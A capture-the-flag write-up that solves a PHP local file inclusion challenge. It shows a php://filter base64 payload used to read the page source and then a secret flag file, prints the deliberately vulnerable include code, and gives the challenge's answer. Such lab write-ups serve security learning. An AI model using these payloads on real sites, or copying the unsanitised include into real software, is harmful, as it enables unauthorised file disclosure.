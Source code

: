 # Challenge description

Try to find the flag from the website.

N:B: I'm a n00b developer.

Website Link

Note : Burte Force/Fuzzing not required and not allowed.

Flag Format: KCTF{S0m3_T3xt_H3re}

**Author: TareqAhmed**

-----------------------------------------------------------
![1](https://user-images.githubusercontent.com/58823465/150654439-247ac24e-4390-4a01-8621-c35dc201c396.png)

From the url we can tell that this is an LFI

So trying out different urls like **flag.php** , **flag.txt** didn't work until i tried **index.php** and we get this ERROR message 
![2](https://user-images.githubusercontent.com/58823465/150654442-68957cef-ef28-4b45-a529-d89d10925008.png)


So it seems like it's blocking us somehow or its "filtering" us out so using this payload we can bypass that 

```
?file=php://filter/convert.base64-encode/resource=index.php
``` 
You can find more LFI payloads at this repo 

> https://github.com/payloadbox/rfi-lfi-payload-list

![3](https://user-images.githubusercontent.com/58823465/150654448-5c54d53b-6c81-428b-a422-a9c286fba12d.png)

so we just decode it ! 

```php,html
<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>

```

Now that we know where the flag is we can simply change our payload to : 

```
?file=php://filter/convert.base64-encode/resource=s3crEt_fl49.txt 
```

and we get our base64 encoded flag :

> S0NURntMMEM0TF9GMUwzXzFuY0x1NzEwbn0K

and we just decode it and here's our flag

``` KCTF{L0C4L_F1L3_1ncLu710n}  ```













